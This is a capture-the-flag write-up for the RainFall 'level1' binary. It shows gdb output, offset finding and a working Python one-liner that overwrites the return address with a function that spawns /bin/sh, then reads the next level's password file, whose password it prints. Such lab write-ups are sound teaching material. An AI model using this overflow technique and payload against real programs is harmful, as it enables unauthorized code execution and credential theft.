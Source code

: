 We got an executable `level1`

```log
0x08048490 <+16>:    call   0x8048340 <gets@plt>
```
It's reading stdin with gets

```sh
level1@RainFall:~$ ./level1
jhfskjghfdkghkjsdhgkjfdhsgkjhfdkjghrehgudfhksjghfdjkhgsdjfkghdfshgjkghdfjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
Segmentation fault (core dumped)
```
> When the buffer is too long the program seg. fault so we can do a buffer overflow

With the site [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) we generate a string with each bites a unique patterns.

We run the program in gdb with the pattern `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag` in input.

```sh
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
> gdb give us the pattern where the program crashed

Wiremask tell us that "0x63413563" correspond to the 76th char oh the string so we can execute our code from the 77th bit of the buffer

We check it

```sh
hiro@WIN-6D4JHE0NA8F:~$ python3 -c "print('H' * 76 + '\x77' * 4)"
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHwwww
```

and we pass it has input 

```sh
Program received signal SIGSEGV, Segmentation fault.
0x77777777 in ?? ()
```
> We got our \77 * 4

In gdb we do `info functions` and we got a function called `run`

```log
(gdb) disas run
Dump of assembler code for function run:
	0x08048444 <+0>:     push   %ebp
	0x08048445 <+1>:     mov    %esp,%ebp
	0x08048447 <+3>:     sub    $0x18,%esp
	0x0804844a <+6>:     mov    0x80497c0,%eax
	0x0804844f <+11>:    mov    %eax,%edx
	0x08048451 <+13>:    mov    $0x8048570,%eax
	0x08048456 <+18>:    mov    %edx,0xc(%esp)
	0x0804845a <+22>:    movl   $0x13,0x8(%esp)
	0x08048462 <+30>:    movl   $0x1,0x4(%esp)
	0x0804846a <+38>:    mov    %eax,(%esp)
	0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
	0x08048472 <+46>:    movl   $0x8048584,(%esp)
	0x08048479 <+53>:    call   0x8048360 <system@plt>
	0x0804847e <+58>:    leave
	0x0804847f <+59>:    ret
End of assembler dump.

(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```
> It's writing something and run /bin/sh

So we are going to over write EIP with `0x08048444`, the address of the run function

```sh
level1@RainFall:~$ (python -c "print('H' * 76 + '\x44\x84\x04\x08')" ; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```